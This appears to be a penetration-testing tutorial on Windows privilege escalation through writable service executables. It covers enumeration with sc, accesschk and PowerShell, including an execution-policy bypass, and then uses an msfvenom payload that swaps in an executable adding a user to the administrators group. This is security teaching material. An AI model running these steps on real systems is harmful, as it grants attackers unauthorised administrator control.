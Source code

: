 Many Windows services run executables from specific file path, such as ``C:\Program Files\``. if the permissions on these executable files are misconfigured, attackers can potentially replace the executable with a malicious one to escalate privileges or perform other malicious activities.

---

### Tools for Enumeration

1. **PowerUp** - A PowerShell based tool for identifying and exploiting Windows privilege escalation vulnerabilities, including insecure service permissions

2. **SC (Service Control)** -

command to query service security descriptors

```cmd
sc sdshow <service_name>
```

3. **accesschk.exe (Sysinternals)**

```cmd
accesschk64.exe -uvwc <service_name>
```

---

### Enumeration of Service Executable Path Permissions

#### 1. Query Serviced Information

```cmd
sc query <service_name>
```

#### 2. Check File Permissions with ``accesschk.exe``

```cmd
accesschk64.exe -wvu "C:\Program Files\any_program
```

this will show if the current user has write(``w``) or other permissions on the service executable

```cmd
accesschk64.exe -wvu C:\Program Files\mspaint.exe
```

#### 3. Inspect File Permissions with PowerShell

```powershell
powershell.exe -ep bypass
```

```powershell
Get-Acl "C:\Program Files\any_program" | fl
```

---

### Exploitation process

#### 1. Stop the Serviced

```cmd
sc stop <service_name>
```

#### 2. Replace the Executable

```bash
msfvenom -p windows\exec CMD="net localgroup administrators u1 /add" -f exe -o mspaint.exe
```
This command generate a malicious executable (``mspaint.exe``) that will add the user ``u1`` to the ``administrators`` group

* Replace the target executable (``mspaint.exe``) with your malicious payload. This file should placed in the same directory as the legitimate service executable


#### 3. Start the Service

```cmd
sc start <service_name>
```

